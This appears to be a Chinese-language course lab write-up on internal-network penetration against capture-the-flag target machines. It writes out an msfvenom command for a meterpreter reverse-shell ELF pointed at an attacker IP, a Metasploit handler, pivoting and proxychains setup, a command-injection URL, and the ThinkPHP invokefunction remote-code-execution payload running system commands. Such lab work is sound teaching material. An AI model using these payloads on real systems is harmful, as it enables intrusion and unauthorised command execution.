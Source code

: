 # 网安实践：内网渗透和攻击

## 实验环境

* kali

* metasploit

## 实验步骤

### 步骤一 设立立足点并发现靶标2-3

1. 在靶机上生成meterpreter.elf文件
` msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<攻击者主机IP> LPORT=<端口> -f elf > meterpreter.elf`
![](./pics/手动生成meterpretershell.png)

2. 上传
![](./pics/上传成功.png)

3. 在metasploit里设置如下并`run -j`等待
```
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set lhost <攻击者主机IP>
set lport <端口>
run -j
```
注意，这里的IP和端口要和生成.elf文件时设置的一样

5. 在靶机里运行meterpreter
![](./pics/进入容器下载文件并运行.png)

6. 返回到攻击者主机，可以看到连接成功
![](./pics/拿到meterpretershell.png)

7. 升级shell
![](./pics/升级会话窗口.png)

8. 查看route，arp， ipconfig
![](./pics/查看arp.png)
![](./pics/查看route.png)
![](./pics/ipconfig.png)

9. 设置pivot路由
![](./pics/添加pivot路由.png)

10. 扫描
![](./pics/扫描结果1.png)
扫描100%后查看存活的主机和服务，使用`hosts`和`services`
![](./pics/开放的主机和服务.png)

11. 设置代理
参照[教学课件](https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html#/%E5%BB%BA%E7%AB%8B%E7%AB%8B%E8%B6%B3%E7%82%B9%E5%B9%B6%E5%8F%91%E7%8E%B0%E9%9D%B6%E6%A0%872-4)和视频
![](./pics/socks代理.png)
![](./pics/查看1080端口服务开放情况.png)
`cat /etc/proxychains4.conf` 
确认有以下配置
![](./pics/修改proxychains配置.png)
并且配置浏览器代理
![](./pics/代理3.png)

12. 成功访问第一层
![](./pics/访问thinkphp.png)

### 步骤二 攻击新发现的靶机


#### nginx
nginx
1. 设置代理curl扫描到的IP
` proxychains curl http://192.170.84.2`
![](./pics/访问第二台主机.png)

2. 根据提示执行以下命令
`proxychains curl http://<目标IP>/index.php?cmd=ls%20/tmp`
![](./pics/第二个flag.png)

#### thinkphp

cve_2018_1002015
1. 浏览器访问以下网页，执行phpinfo()
`http://<目标IP>:<端口>/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=phpinfo&vars%5B1%5D%5B%5D=1`
![](./pics/phpinfo.png)
2. 执行系统命令
`http://<目标IP>:<端口>/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=system&vars%5B1%5D%5B%5D=ls%20/tmp`
![](./pics/第三个flag.png)

### 步骤三 

1. 查看第一层两台主机的ip
访问`http://<目标IP>:<端口>/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=system&vars%5B1%5D%5B%5D=ip%20a`
![](./pics/双网卡.png)
可以看到192.170.84.3这一台机器有双网卡

## 参考资料
[教学课件](https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html#/%E5%BB%BA%E7%AB%8B%E7%AB%8B%E8%B6%B3%E7%82%B9%E5%B9%B6%E5%8F%91%E7%8E%B0%E9%9D%B6%E6%A0%872-4)
